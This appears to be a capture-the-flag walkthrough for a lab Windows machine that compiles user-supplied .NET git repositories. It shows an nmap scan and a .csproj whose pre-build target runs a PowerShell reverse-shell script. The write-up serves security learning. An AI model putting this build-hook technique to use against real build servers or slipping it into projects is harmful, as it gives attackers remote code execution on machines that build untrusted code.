 # 1. Enumeration
- We will start enumerating for any open ports using nmap:

```
└─$ nmap -sC -sV -Pn -p- -v 10.10.11.234
PORT   STATE SERVICE REASON  VERSION                                                                                                      
80/tcp open  http    syn-ack Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)                                                      
|_http-title: Visual - Revolutionizing Visual Studio Builds                                                                               
| http-methods:                                                                                                                           
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                              
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17                                                                     
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
```

# 2. User Own

- Website's functionalities:
  - Input: git URL to a .NET, C# repo
  - The target server will build the solution 
  - Output: .exe, .dll files
- Knowing that the server will build our project, we need to find a way to execute codes that are stored in the solution
- Luckily, C#, .NET support code execution at pre-build & post-build phase
- Here is our malicious Git repo: https://github.com/hoanghailongvn/visualpoc
- Content of `*.csproj` in our solution:

```
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="powershell ./reverse_shell.ps1" />
  </Target>
  <Target Name="PostBuild" AfterTargets="PostBuildEvent">
    <Exec Command="echo after" />
  </Target>
  
</Project>
```
